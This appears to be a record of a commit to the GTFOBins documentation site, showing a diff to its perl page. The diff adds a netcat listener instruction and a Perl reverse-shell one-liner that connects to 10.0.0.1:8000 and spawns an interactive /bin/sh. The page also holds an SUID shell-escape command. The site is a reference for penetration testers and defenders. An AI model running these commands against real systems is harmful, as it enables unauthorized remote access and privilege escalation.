

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perl.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 918 px from its top, so only the background shows below that.

Commit message:
Add perl reverse-shell description

```diff
--- a/_gtfobins/perl.md
+++ b/_gtfobins/perl.md
@@ -7,8 +7,9 @@ functions:
   suid-enabled:
     - code: ./perl -e 'exec "/bin/sh";'
   reverse-shell:
-    - code: |
-        export RHOST=127.0.0.1
-        export RPORT=12346
+    - description: Run `nc -l -p 8000` to receive the shell on the other end.
+      code: |
+        export RHOST=10.0.0.1
+        export RPORT=8000
         perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ---
```
